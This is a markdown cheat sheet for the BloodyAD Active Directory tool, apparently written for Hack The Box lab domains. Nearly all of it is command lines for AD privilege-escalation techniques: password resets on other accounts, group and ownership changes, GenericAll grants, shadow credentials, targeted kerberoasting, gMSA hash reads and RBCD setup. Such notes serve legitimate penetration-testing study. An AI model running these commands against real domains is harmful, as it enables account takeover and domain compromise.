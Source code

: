 # BloodyAD – AD Exploitation Automation Tool

##  Authentication Support

#### With user/pass:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" -action info
```
#### NTLM:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u administrator -H aad31431b21403eeaad3b435b51203ee:7bd61f3j2fc18212e35dbda95f168918 -action info
```
#### Kerberos Ticket:
Specified with the -k flag
```bash
#Even with kerberos auth we can run into issues if we do not specify user and password, so try to do that aswell:

bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p 'lol123!' -k set password janet 'pwned123!'
```

---

## Enumerating AD Objects

#### Listing object data:
```bash
#base command:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" get object janet

#specifying specific attributes:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" get object --attr <attributes> janet
```
#### Listing Writable Objects to user:
Good addition to BloodHound graphs for identifying what objects and what attributes the user can write to.
```bash
#base command:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" get writable

#Detailed output (Recommended):
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" get writable --detail
```
#### Listing Group Memberships + SIDs:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" get membership john
```
#### List Children for target:
```bash
#for current user:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" get children

#for a set target:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" get children --target bob
```
---
## Domain Enumeration
#### Listing DNS Records:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" get dnsDump
```
#### Listing Domain Trusts:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" get trusts
```
---
## Modifying AD Objects

#### Changing target User's Password:
```bash
#standard way:
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" set password janet 'pwned123!'

#unicode way:
bloodyAD -d rustykey.htb --host dc.rustykey.htb -u john -k \
set object dd.ali unicodePwd -v '"NewP@ssw0rd!"'
```
#### Adding target to Group:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" add groupMember 'IT Support' john
```
#### Adding Computer Object
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" add computer 'mypc$' 'pwned123!'
```
#### Changing Ownership:
`SE_TAKE_OWNERSHIP_PRIVILEGE (Write Owner) makes it so you can only set yourself as the owner (the user that you provided creds for)`
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" set owner 'IT Support' james
```
#### Setting SPN for targeted kerberoast:
```bash
#adding SPN
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" set object dd.ali servicePrincipalName -v 'test/test'

#SPN-Roasting after it's set:
impacket-GetUserSPNs rustykey.htb/john -k -no-pass -dc-host dc.rustykey.htb -dc-ip 10.129.232.127  -outputfile kerbe.txt
```
#### Enabling a disabled User:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" set object janet userAccountControl -v 512
```
#### Restoring Removed (Tombstoned) User:
```bash
#default way:
bloodyAD -d tombwatcher.htb -u john -p 'pwned123!' --dc-ip 10.129.180.41 set restore jurgen --newParent "OU=OLDPARENTOU,DC=domain,DC=local"

#with SID, if multiple users exist with the same SAM:
bloodyAD -d tombwatcher.htb -u john -p 'pwned123!' --dc-ip 10.129.180.41 set restore S-1-5-21-1392421010-1358638121-2126912587-1211 --newParent "OU=OLDPARENTOU,DC=domain,DC=local"
```
#### Add GenericALL (WriteOwner Abuse):
```bash
#john is the trustee, Infrastructure is the target grp:
bloodyAD -u 'john' -p 'pwned123!' -d tombwatcher.htb --dc-ip 10.129.180.41 add genericAll 'Infrastructure' john
```
#### Add Shadow Credentials:
```bash
bloodyAD -u 'john' -p 'pwned123!' -d tombwatcher.htb --dc-ip 10.129.180.41 add shadowCredentials jasper
```
#### Setting LogonHours to Always allowed:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" set object javier.mmarshall logonhours -v '////////////////////////////' --b64
```
#### Getting GMSA-PW:
Outputs the NT hash of the object if the specified user has the right to read it:
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" get object 'Mirage-Service$' --attr msDS-ManagedPassword
```
#### Adding RBCD (Resource-Based Constrained Delegation):
```bash
bloodyAD --host dc01.mirage.htb -d mirage.htb -u john -p "lol123!" add rbcd 'AD-CS$' 'mypc$'
```
---
